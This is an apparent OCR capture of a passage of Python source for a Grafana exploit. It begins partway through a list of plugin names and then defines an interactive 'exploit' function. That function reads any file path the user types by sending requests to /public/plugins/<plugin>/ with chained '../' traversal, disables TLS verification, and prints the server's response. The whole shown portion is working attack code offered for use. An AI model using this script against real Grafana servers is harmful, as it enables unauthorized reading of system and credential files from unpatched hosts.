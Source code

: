 ```python
    "gettingstarted",
    "grafana-azure-monitor-datasource",
    "graph",
    "heatmap",
    "histogram",
    "influxdb",
    "jaeger",
    "logs",
    "loki",
    "mssql",
    "mysql",
    "news",
    "nodeGraph",
    "opentsdb",
    "piechart",
    "pluginlist",
    "postgres",
    "prometheus",
    "stackdriver",
    "stat",
    "state-timeline",
    "status-histor",
    "table",
    "table-old",
    "tempo",
    "testdata",
    "text",
    "timeseries",
    "welcome",
    "zipkin"
]


def exploit(args):
    s = requests.Session()
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.'}

    while True:
        file_to_read = input('Read file > ')

        try:
            url = args.host + '/public/plugins/' + \
                choice(plugin_list) + \
                '/../../../../../../../../../../../../..' + file_to_read
            req = requests.Request(method='GET', url=url, headers=headers)
            prep = req.prepare()
            prep.url = url
            r = s.send(prep, verify=False, timeout=3)

            if 'Plugin file not found' in r.text:
                print('[-] File not found\n')
            else:
                if r.status_code == 200:
                    print(r.text)
                else:
                    print('[-] Something went wrong.')
                    return
        except requests.exceptions.ConnectTimeout:
            print('[-] Request timed out. Please check your host settings.\n')
            return
        except Exception:
            pass
```
